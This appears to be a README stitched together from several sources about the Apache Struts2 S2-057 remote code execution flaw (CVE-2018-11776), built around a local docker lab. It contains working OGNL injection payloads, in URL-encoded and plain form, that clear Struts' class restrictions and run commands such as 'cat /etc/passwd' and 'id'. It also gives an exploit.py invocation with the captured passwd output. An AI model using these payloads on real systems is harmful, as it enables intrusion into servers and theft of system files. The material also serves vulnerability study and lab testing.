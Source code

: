 # Struts2 S2-057 Remote Code Execution Vulnerablity(CVE-2018-11776)

Affected Version: <= Struts 2.3.34, Struts 2.5.16

Details:

 - https://cwiki.apache.org/confluence/display/WW/S2-057
 - https://lgtm.com/blog/apache_struts_CVE-2018-11776
 - https://xz.aliyun.com/t/2618
 - https://mp.weixin.qq.com/s/iBLrrXHvs7agPywVW7TZrg

## Setup

Start the Struts 2.3.34 environment:

```
docker-compose up -d
```

# S2-057-CVE-2018-11776
A simple exploit for Apache Struts RCE S2-057 (CVE-2018-11776)

***IMPORTANT: Is provided only for educational or information purposes.***



# Usage
`exploit.py <url> <command> <action> <payload>`

# Example
```Shell
$ python exploit.py "http://127.0.0.1:8080/showcase" "cat /etc/passwd" "actionChain1.action" 3

=== Tring payload-3 ===
[*] Generated EXP: http://127.0.0.1:8080/showcase/%24%7B%28%23dm%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%29.%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28@com.opensymphony.xwork2.ognl.OgnlUtil@class%29%29.%28%23ou.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ou.getExcludedClasses%28%29.clear%28%29%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23w%3D%23ct.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%29.%28%23w.print%28@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27cat /etc/passwd%27%29.getInputStream%28%29%29%29%29.%28%23w.close%28%29%29%7D/actionChain1.action
[*] Exploiting...
[+] HTTP Status: 200
[+] Response: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
[*] Exploit Finished!
```

# Reference
* https://www.anquanke.com/post/id/157823
* https://mp.weixin.qq.com/s/iBLrrXHvs7agPywVW7TZrg
* https://github.com/vulhub/vulhub


## Exploit

S2-057 requires the following conditions:

  - `alwaysSelectFullNamespace` is true
  - The action element does not have the namespace attribute set, or a wildcard is used

The namespace will be passed by the user from uri and parsed as an OGNL expression, eventually cause remote code execution vulnerablity.

Payload:

```
http://your-ip:8080/struts2-showcase/$%7B233*233%7D/actionChain1.action
```

![](1.png)

It can be seen that the result of 233*233 has been returned in the Location header.

Use payload from [S2-057 vulnerability analysis and POC](https://mp.weixin.qq.com/s/iBLrrXHvs7agPywVW7TZrg):

```
${
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```

Result:

![](2.png)
# CVE-2018-11776-PoC
